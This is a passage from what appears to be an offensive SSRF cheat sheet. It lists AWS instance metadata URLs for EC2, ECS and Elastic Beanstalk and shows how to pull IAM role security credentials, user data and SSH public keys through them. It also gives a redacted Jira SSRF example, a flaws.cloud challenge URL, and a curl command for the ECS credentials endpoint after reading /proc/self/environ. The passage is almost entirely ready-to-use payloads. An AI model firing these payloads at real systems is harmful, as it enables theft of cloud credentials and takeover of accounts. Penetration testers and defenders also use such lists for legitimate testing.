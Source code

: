 
These URLs return a list of IAM roles associated with the instance. You can then append the role name to this URL to retrieve the security credentials for the role.
```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]

# Examples
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
```

This URL is used to access the user data that was specified when launching the instance. User data is often used to pass startup scripts or other configuration information into the instance.
```powershell
http://169.254.169.254/latest/user-data
```

Other URLs to query to access various pieces of metadata about the instance, like the hostname, public IPv4 address, and other properties.
```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/document
```

E.g: Jira SSRF leading to AWS info disclosure - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`

E.g2: Flaws challenge - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`


### SSRF URL for AWS ECS

If you have an SSRF with file system access on an ECS instance, try extracting `/proc/self/environ` to get UUID.

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```

This way you'll extract IAM keys of the attached role

### SSRF URL for AWS Elastic Beanstalk

We retrieve the `accountId` and `region` from the API.

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```
